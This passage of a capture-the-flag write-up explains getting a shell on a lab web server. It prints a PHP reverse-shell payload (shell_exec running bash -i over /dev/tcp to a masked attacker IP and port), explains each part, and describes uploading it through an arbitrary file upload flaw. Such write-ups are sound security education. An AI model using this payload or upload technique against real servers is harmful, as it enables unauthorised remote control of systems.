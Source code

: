 ## Getting a Shell:
- A remote shell is a command-line interface that allows you execute commands on a remote server/device. It is really a powerful skill to have:
    - There many ways to get a shell, but the following approach is how i have learned through previous ctf challenges:
    - Okay, but honestly i struggled a lot with this one though i thought it was gonna be easy and it was after an intensive research that i finally found out about the new extention. But let's go through it together and i will show you how i struggled if you want to know.
    - Firstly, i knew how to write the php shell code, which is as follows:
    ```php
    <?php 
        $ip=***.***.***.***;
        $port=****;
        shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/$ip/$port 0>&1'");
    ?>
    ```
    - I know this might not be intuitive, but trust me the more you do the ctf challenges, the more this will stick in your brain.
    - But to describe it a little:
        - `shell_exec("")`:This is just a system function that tells the system to execute the provided commands.
        - `/bin/bash`: Path to the bash executable, basically a command-line intepreter(converts the code/commands to machine code), used for executing shell scripts. 
        - `-i`: "interactive", allows us to get an interactive shell.
        - `&> /dev/tcp/$ip/$port`: This just establishes a connection "tcp tunnel" between you and the server.
        - `0>&1`: This is just for input-output, allows us to input and get an output.
😬, but there is more detailed complex information about that payload.
    - So the objective is that we have to find a vulnerability within this website.
    - Immediately i though of the "Arbitrary File Upload" vulnerability. It when a web server allows users to upload files to its filesystem without sufficiently validating things like their name, type and extensions.
    - When can easily upload a php file, that web server will execute to give us a shell. But in this case its not that easy.
    - So then i created the php file:
    ![stepic challenge](/assets/img/rootMe(11).PNG){: .writeup-image }
    - Preference(Sublime-text editor), you may use any that you comforatable with.
    - I have already explained the payload above.
    - But for the `port` you may use any port that is not in-use, the most common one is 1337.